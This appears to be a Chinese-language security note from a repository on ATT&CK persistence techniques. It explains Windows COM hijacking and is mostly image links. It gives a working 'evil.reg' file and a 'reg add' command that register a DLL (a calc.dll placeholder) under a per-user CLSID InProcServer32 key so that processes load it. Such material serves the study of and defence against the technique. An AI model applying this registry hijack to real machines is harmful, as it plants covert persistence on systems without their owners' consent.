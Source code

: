 ![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/ATT%26CK_Privilege_Persistence/media/a89ca92536bc1a30b0601a81bb97d8e3.png)

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/ATT%26CK_Privilege_Persistence/media/41bed3e29194d599e78da40a27f1892f.png)

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/ATT%26CK_Privilege_Persistence/media/586ab6683a9aff0f15283ef9e13dab1a.png)

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/ATT%26CK_Privilege_Persistence/media/184ecbd1a8bb2e7eb493627f5022e255.png)

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/ATT%26CK_Privilege_Persistence/media/f066f04dcdd33608df5fdc7891031938.png)

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/ATT%26CK_Privilege_Persistence/media/e2336e3c052a98ba8d433d46825750c9.png)

**ATT&CK: Privilege Persistence-2).Windows利用注册表权限维- COM Hijacking**

应用程序寻找过程:

1.HKCU\\Software\\Classes\\CLSID

2.HKCR\\CLSID

3.HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\ShellCompatibility\\Objects\\

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/ATT%26CK_Privilege_Persistence/media/f9d8959f98859e69f438cdd8e1993e76.png)

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/ATT%26CK_Privilege_Persistence/media/f326a40fc95329fc53eff3f98a5b6023.png)

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/ATT%26CK_Privilege_Persistence/media/2363bbfb7354db272afe65e5d52e2ffc.png)

当进程寻找COM组件时，首先会寻找： HKCU\\Software\\Classes\\CLSID

我们直接在CLSID下新建一个对象ID，就能够劫持某个进程或多个进程。

evil.reg:

Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\\Software\\Classes\\CLSID\\{0A29FF9E-7F9C-4437-8B11-F424491E3931}]

[HKEY_CURRENT_USER\\Software\\Classes\\CLSID\\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\\InProcServer32]

\@="C:\\\\Temp\\\\calc.dll"

"ThreadingModel"="Apartment"

"LoadWithoutCOM"=""

[HKEY_CURRENT_USER\\Software\\Classes\\CLSID\\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\\ShellFolder]

"HideOnDesktop"=""

"Attributes"=dword:f090013d

命令:

reg add
HKEY_CURRENT_USER\\Software\\Classes\\CLSID\\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\\InProcServer32
/v "" /t REG_SZ /d "C:\\Temp\\calc.dll" /f
